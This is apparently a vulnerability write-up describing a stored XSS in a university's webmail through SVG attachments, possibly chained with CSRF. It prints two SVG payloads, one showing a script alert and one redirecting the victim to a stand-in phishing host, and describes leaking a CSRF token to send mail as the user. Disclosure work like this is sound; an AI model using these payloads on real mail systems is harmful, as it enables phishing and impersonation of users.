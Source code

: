 ## Introduction

I decided to write  a technical write-up about a bug inside the WebMail of "Università degli studi di Milano ".
In this post I will share technical details on the xss vulnerability inside a svg file that could be chained with a csrf. 

## Xss inside svg

First of all I tried to see if there was any input not sanitized properly to try some xss but nothing, so I tried to see how webmail handled svg files with some js inside, sending svg file from my personal email to my university emails and I managed to find something good.


![unimia2](https://user-images.githubusercontent.com/59454895/113420406-90ae8c80-93c9-11eb-9aaf-f9a88da90b17.PNG)
Now I knew the webmail service could handle svg files , once opened the browser parse the malicious code and we can get  the xss :

![Unimia3](https://user-images.githubusercontent.com/59454895/113420875-64474000-93ca-11eb-862a-23930a055a1c.PNG)

It works becase SVG is not a graphical format, but an XML document describing the elements that make up graphics and its additional interactions with the environment. SVG files can be an interactive document, such as HTML and can change depending on pre-programmed actions.
Just like in HTML we have a DOM tree  which is available from JS scripts. Due to the fact that HTML, JavaScript and SVG work in the same ecosystem it's easy to create an SVG file that performs malicious actions in the area of the tested web application.
Also we can see from the response header that the SVG file was interpreted as svg+xml ( there was no httponly flag).

![Unimia4](https://user-images.githubusercontent.com/59454895/113421637-be94d080-93cb-11eb-998e-4eb4d1bfd566.PNG)


The file had the following code :

```xml

<?xml version="1.0" standalone="no"?>
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">
 
<svg version="1.1" baseProfile="full" xmlns="http://www.w3.org/2000/svg">
  <polygon id="triangle" points="0,0 0,50 50,0" fill="#009900" stroke="#004400"/>
    <foreignObject class="node" x="46" y="22" width="200" height="300">
		  <body xmlns="http://www.w3.org/1999/xhtml">
			 <style>
				 h1{color: red}
			  </style>
			  <h1>Open me :)</h1>
	    </body>
   </foreignObject>
  <script type="text/javascript">
	  alert('1');
  </script>
</svg>
```
## Attack scenario
It's possible to trick the user into a pishing page since we can make a redirection where we want with some js  , after the the file has been opened  . It can be done with the following code inside the svg file( or we can trick him to put his credentials.)


```xml
<svg version="1.1" baseProfile="full" xmlns="http://www.w3.org/2000/svg">
   <polygon id="triangle" points="0,0 0,50 50,0" fill="#009900" stroke="#004400"/>
   <script type="text/javascript">
             window.location.href="https://www.evilsite.com/";

   </script>
</svg>
```
The worst thing is that the token can be leaked into the attacker's server and is no longer sufficient against csrf attacks. With csrf we can for example send an email to a recipient chosen by us (such as a professor) containing an inappropriate text, without the original user noticing it.

![Unimia4](https://user-images.githubusercontent.com/59454895/113429277-8c3da000-93d8-11eb-9fe2-b8d2018a282c.PNG)


